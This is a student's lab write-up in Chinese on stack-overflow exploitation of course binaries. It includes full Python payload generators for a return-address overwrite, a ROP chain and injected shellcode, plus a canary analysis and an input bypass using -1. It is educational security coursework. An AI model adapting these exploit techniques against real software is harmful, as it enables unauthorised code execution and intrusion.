


# 栈溢出攻击实验

## 题目解决思路

### Problem 1:

* **分析**：
  我在本题中采用了最直接的栈溢出思路：通过输入超长数据覆盖栈上的返回地址（retaddr），让函数返回时跳转到目标函数执行，从而输出题目要求的字符串。
  结合栈帧结构，我确认从 `rbp-8` 到 `rbp+8` 一共 **16 字节**，因此我只需要先填充 16 字节 padding 覆盖到返回地址位置，再把目标函数地址写进去即可完成劫持。

* **解决方案**：
  我使用 `solve_prob1.py` 构造 payload。payload 的结构是：

  1. `padding = b'A' * 16`
  2. 目标跳转地址为 `func1`：`0x401216`（按 64 位小端序写入）
  3. 拼接 `payload = padding + target_addr` 并输出到 `ans1.txt`

```python
import struct

#构造 Padding
#从rbp-8到rbp+8之间共有16个字节
padding = b'A' * 16

#构造目标地址
#func1：0x401216
#打包成 64位小端序
target_addr = struct.pack('<Q', 0x401216)

#拼接Payload
payload = padding + target_addr

#写入文件
with open("ans1.txt", "wb") as f:
    f.write(payload)

print(f"Payload generated! Size: {len(payload)} bytes.")
print(f"Content: {payload}")

```

* **结果**：


---

### Problem 2:

* **分析**：
  本题开启了 **NX**，因此我不能像第一题那样直接在栈上执行注入代码。所以我使用 **ROP** 的方式，通过 gadget 构造调用链来完成目标。
  我认为需要通过 `pop rdi; ret` 这种 gadget 给函数传参，然后再跳转到目标函数。根据我在代码里的注释，`func2` 中会比较参数是否为 `0x3f8`，所以我把 `rdi` 设置成 `0x3f8` 才能通过检查并输出目标字符串。

* **解决方案**：
  我使用 `solve_prob2.py` 构造 ROP payload，结构如下：

  1. `padding = b'A' * 16`
  2. `pop %rdi; ret` gadget 地址：`0x4012c7`
  3. 参数值：`0x3f8`
  4. 目标函数地址：`0x401216`
     拼接顺序为：`padding + pop_rdi_ret + arg_val + func2_addr`，并写入 `ans2.txt`。

```python
import struct

#构造Padding
padding = b'A' * 16

#ROP Gadget地址
#汇编中找到的pop %rdi; ret地址
pop_rdi_ret_addr = 0x4012c7 

#参数值
#func2中cmpl $0x3f8, -0x4(%rbp)要求的比较值
arg_val = 0x3f8

#目标函数地址
func2_addr = 0x401216

#拼接 Payload
payload = padding
payload += struct.pack('<Q', pop_rdi_ret_addr) 
payload += struct.pack('<Q', arg_val)          
payload += struct.pack('<Q', func2_addr)       

#写入文件
with open("ans2.txt", "wb") as f:
    f.write(payload)

print("ans2.txt generated successfully!")
```

* **结果**：附上图片


---

### Problem 3:

* **分析**：
  本题的提示强调了**可用字节长度**与**栈地址变化**。我的做法是将一段短小的机器码片段放入输入中，通过覆盖返回地址把控制流引导到题目给定的跳转位置，从而执行我构造的逻辑并输出幸运数字。
  在构造 payload 前，可以发现从 `buffer start` 到 `return address` 的距离是 **40 字节**。因此我把 shellcode 放在 payload 最前面，然后用 NOP（`0x90`）填充到 40 字节处，最后覆盖返回地址为 `jmp_xs`，使程序按预期跳转。

* **解决方案**：
  我使用 `solve_prob3.py` 生成 payload，结构如下：

  1. shellcode：我构造的字节序列（用于设置寄存器并调用目标地址 `0x401216`）
  2. padding：`padding_len = 40 - len(shellcode)`，用 NOP 填充
  3. retaddr：覆盖为 `jmp_xs_addr = 0x401334`（小端序写入）
     最终写入 `ans3.txt`。

```python
import struct

#准备Shellcode
shellcode = b"\xbf\x72\x00\x00\x00"
shellcode += b"\x48\xb8\x16\x12\x40\x00\x00\x00\x00\x00"
#call rax
shellcode += b"\xff\xd0"

#计算Padding
#从buffer start到return address的距离是40
#把shellcode放在最开头，后面用nop填充
padding_len = 40 - len(shellcode)
padding = b"\x90" * padding_len

#构造Return Address
#覆盖func的返回地址，使其跳转到jmp_xs
jmp_xs_addr = 0x401334
ret_addr = struct.pack('<Q', jmp_xs_addr)

#拼接 Payload
payload = shellcode + padding + ret_addr

#写入文件
with open("ans3.txt", "wb") as f:
    f.write(payload)

print(f"Payload generated! Size: {len(payload)} bytes.")
print("Shellcode injected. Redirecting execution flow to jmp_xs...")

```

* **结果**：附上图片

---

### Problem 4:

* **分析**：体现canary的保护机制是什么
  本题启用了 **Stack Canary**，我在反汇编中能明显看到 canary 的典型模式：

  * 函数进入时，从 `%fs:0x28` 取出 canary 保存到栈上（例如保存到 `-0x8(%rbp)`）
  * 函数返回前，再把栈上的 canary 取出来与 `%fs:0x28` 比较
  * 如果不一致就调用 `__stack_chk_fail@plt` 并终止程序

  因此在开启 canary 的情况下，传统的“通过溢出覆盖返回地址”的方式很容易破坏 canary，触发 `__stack_chk_fail`，导致攻击失败。
  这题我最终并没有使用栈溢出，而是从 `func` 的逻辑分支中找到绕过点：我发现程序在最后一个输入位置接收一个整数，并在 `func` 内部通过一系列比较与循环后进入成功分支。
  
  经过我对汇编条件判断的跟踪，成功条件(13d9):
```
    13d9:       83 7d e8 01             cmpl   $0x1,-0x18(%rbp)
    13dd:       75 06                   jne    13e5
    程序要求计算后的 Final_i 必须等于 1。
    反推输入:
    Input_i - 0xfffffffe = 1
    Input_i = 1 + 0xfffffffe
    Input_i = 0xffffffff
    在计算机中，0xffffffff 对应的有符号整数就是 -1。
```
只要在最后一个地方输入 **-1**，就会满足关键判断条件，从而调用 `func1()` 输出成功信息并 `exit`。

* **解决方案**：
  本题不需要构造溢出 payload，也不需要绕过 canary。只需要在程序最后一个要求输入整数的位置输入：**-1**即可触发成功路径并完成题目。

* **结果**：附上图片


---

## 思考与总结

通过本次实验，我对栈溢出与控制流劫持的过程有了更完整的理解，比如在无保护情况下，我可以通过精确计算 padding 覆盖返回地址，直接跳转到目标函数；比如在 NX 开启时，我需要使用 ROP，通过 gadget 完成参数传递与函数调用；再比如p4中在 Canary 开启时，直接栈溢出会触发保护机制，因此我需要转而分析程序自身逻辑，寻找不破坏栈结构也能通关的输入方式。可以看出是个babyattack，但确实是一个很有意思的lab，感觉将很多学过的知识结合了起来。

---

## 参考资料

* CTF Wiki：Stack Overflow（README中给出的参考链接）
  [https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/)
* 本实验提供的 README 与题目附件（用于确认题目要求与运行方式）
* 课堂ppt
